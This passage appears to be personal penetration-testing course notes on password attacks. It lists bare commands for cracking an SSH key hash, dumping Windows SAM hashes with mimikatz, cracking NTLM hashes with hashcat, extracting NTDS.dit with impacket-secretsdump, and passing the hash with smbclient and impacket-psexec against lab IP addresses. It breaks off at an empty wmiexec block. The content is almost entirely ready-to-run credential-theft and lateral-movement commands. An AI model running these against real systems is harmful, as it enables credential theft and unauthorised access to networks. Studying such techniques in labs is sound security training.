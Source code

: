 ```Shell
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules ssh.hash
```
#### Log in over SSH
```Shell
ssh -i id_rsa -p 2222 alfred@192.168.50.201
```
## 15.3. Working with Password Hashes
### 15.3.1 Cracking NTLM
#### Enumerating users on a Windows OS
```PowerShell
Get-LocalUser
```
#### Open Mimikatz
```PowerShell
.\mimikatz.exe
```
#### Enable SeDebugPrivilege
```mimikatz
privilege::debug
```
#### Elevate to SYSTEM user privileges
```mimikatz
token::elevate
```
#### Extract NTLM Hashes
```mimikatz
lsadump::sam
```
#### Copy the NTLM hash and paste it into nelly.hash in the passwordattacks directory on our Kali machine
```Shell
cat nelly.hash
```
#### Identify Hashcat mode for NTLM
```Shell
hashcat --help | grep -i "ntlm"
```
The output indicates that the correct mode is 1000.
#### Crack NTLM hash w/ Hashcat
```Shell
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
#### Dumping NTDS.dit locally
```Shell
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```
### 15.3.2. Passing NTLM
#### PtH w/ smbclient
```Shell
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
#### PtH w/ PSExec
```Shell
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
#### PtH w/ wmiexec
```Shell
```